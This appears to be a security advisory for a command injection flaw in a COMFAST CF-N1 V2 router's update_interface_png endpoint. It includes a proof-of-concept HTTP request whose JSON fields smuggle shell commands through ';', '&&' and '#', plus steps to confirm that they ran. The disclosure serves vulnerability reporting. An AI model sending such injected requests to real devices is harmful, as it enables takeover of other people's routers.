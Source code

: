 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `update_interface_png`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `update_interface_png` API (`/usr/bin/webmgnt`, function `sub_41C000`). Attackers can inject arbitrary commands via the `interface` and `display_name` parameters, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Evidence](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=update_interface_png`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability resides in the `sub_41C000` function responsible for handling the `update_interface_png` configuration. Disassembly analysis reveals that user-controlled parameters (`interface` and `display_name`) are unsanitized and directly incorporated into a system command via `sprintf_0`, which is then executed using `system_0`.

Key code flow:



1.  User input is parsed via `blobmsg_parse_0`, extracting parameters including `interface` and `display_name`.

2.  These parameters are inserted into a command string using `sprintf_0` with the template `&aSSSSLdSSS` (likely a command for updating interface images, e.g., involving `ld` or file operations).

3.  The constructed command is executed via `system_0` without input validation, allowing attackers to inject arbitrary commands using delimiters like `;`, `&&`, or `#`.

This lack of sanitization enables attackers to break out of the intended command structure and execute malicious code.



![Vulnerable Code Snippet](./imgs/1.png)



![Command Injection Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Commands via `interface` and `display_name`



```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png  HTTP/1.1
Host: cflogin.cn
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"interface":"; echo update > /www-comfast/test.txt #","display_name":"&& echo 1"}
```



*   **Notes**: The `interface` parameter uses `;` to terminate the original command and inject `echo update`, while `display_name` uses `&&` to chain an additional `echo 1` command. The `#` comments out remaining syntax to avoid errors.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify execution of the injected command.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "update", confirming successful command injection.

![PoC Execution Result](./imgs/3.png)

